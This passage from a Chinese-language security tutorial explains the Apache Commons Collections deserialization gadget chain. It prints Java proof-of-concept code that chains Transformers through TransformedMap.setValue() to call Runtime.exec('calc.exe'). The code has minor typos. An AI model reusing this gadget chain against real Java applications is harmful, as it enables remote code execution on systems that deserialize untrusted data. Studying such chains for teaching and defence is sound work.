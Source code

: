 只需要传入方法名、参数类型和参数，即可调用任意函数。

![](https://cdn.jsdelivr.net/gh/jitwxs/cdn/blog/posts/201803/20180326185035632.png)

在这里，我们可以看到，先用`ConstantTransformer()`获取了`Runtime`类，接着反射调用`getRuntime`函数，再调用getRuntime的`exec()`函数，执行命令"calc.exe"。依次调用关系为： **Runtime --> getRuntime --> exec()**。

因此，我们要提前构造 `ChainedTransformer`链，它会**按照我们设定的顺序依次调用**`Runtime`, `getRuntime`,`exec`函数，进而执行命令。正式开始时，我们先构造一个`TransformeMap`实例，然后想办法修改它其中的数据，使其自动调用`tansform()`方法进行特定的变换。

总结一下：

 1. 构造一个`Map`和一个能够执行代码的`ChainedTransformer`
 2. 生成一个`TransformedMap`实例
 3. 利用MapEntry的setValue()函数对**TransformedMap中的键值进行修改**
 4. 触发我们构造的之前构造的链式Transforme（即ChainedTransformer）**进行自动转换**

我们可以实现这个思路：

```java
public static void main(String[] args) throws Exception {
    //transformers: 一个transformer链，包含各类transformer对象（预设转化逻辑）的转化数组
    Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", 
            new Class[] {String.class, Class[].class }, new Object[] {
            "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", 
            new Class[] {Object.class, Object[].class }, new Object[] {
            null, new Object[0] }),
        new InvokerTransformer("exec", 
            new Class[] {String.class }, new Object[] {"calc.exe"})};

    //首先构造一个Map和一个能够执行代码的ChainedTransformer，以此生成一个TransformedMap
    Transformer transformedChain = new ChainedTransformer(transformers);

    Map innerMap = new hashMap();
    innerMap.put("1", "zhang");

    Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
    //触发Map中的MapEntry产生修改（例如setValue()函数
    Map.Entry onlyElement = (Entry) outerMap.entrySet().iterator().next();
    
    onlyElement.setValue("foobar");
    /*代码运行到setValue()时，就会触发ChainedTransformer中的一系列变换函数：
       首先通过ConstantTransformer获得Runtime类
       进一步通过反射调用getMethod找到invoke函数
       最后再运行命令calc.exe。
    */
}
```

### 3.3 AnnotationInvocationHandler
